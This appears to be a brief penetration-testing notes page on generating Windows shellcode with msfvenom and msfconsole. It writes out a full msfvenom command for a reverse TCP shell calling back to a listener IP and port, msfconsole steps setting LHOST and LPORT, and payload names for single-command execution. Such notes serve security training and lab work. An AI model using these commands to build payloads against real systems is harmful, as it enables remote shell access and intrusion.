 <!-- TITLE: Generating Shellcode -->
<!-- SUBTITLE: Using msfvenom to generate shellcode -->

# Generating Shellcode

An easy way to generate shellcode is by using `msfvenom` or `msconsole`. I mostly see people recommending msfvenom online, but I think msfconsole can be a bit easier to work with. But of course it is the same thing, just different interfaces.

## Msfvenom

### Reverse Bind Shell \(Windows x86\)

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.20.20.145 LPORT=4444 EXITFUNC=thread -f python -a x86 –platform windows -b “\x00”
```



## Using Msfconsole

In msfconsole you have the keyword `generate` that help us generate shellcode. So first we have to select a payload.

```text
use payload/windows/shell_reverse_tcp
```

Now we set the variables as usual

```text
set LPORT 5555
set LHOST 192.168.0.101
```

Now we generate the shellcode using the command `generate`.

To see the options use `generate -h`

## Command Execution Shellcode

If you don't have much space on the stack and only want to execute a single command you can use:

```text
use payload/windows/exec
use payload/cmd/windows/generic
```
